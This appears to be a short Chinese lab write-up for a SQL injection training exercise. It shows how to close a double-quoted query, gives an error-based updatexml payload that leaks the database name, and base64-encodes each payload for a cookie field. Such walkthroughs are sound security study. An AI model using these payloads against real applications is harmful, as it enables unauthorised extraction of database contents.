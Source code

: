 
尝试闭合：

admin" and "s"="s -- YWRtaW4iIGFuZCAicyI9InM=

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less22.assets/1603917-20190620174029515-1526646324.png)

构造SQL

`admin" and updatexml(1,concat(0x7e,database(),0x7e),1) and "s"="s`

`YWRtaW4iIGFuZCB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSxkYXRhYmFzZSgpLDB4N2UpLDEpIGFuZCAicyI9InM=`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less22.assets/1603917-20190620174338906-391415002.png)

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less22.assets/1603917-20190620174318764-676183813.png)
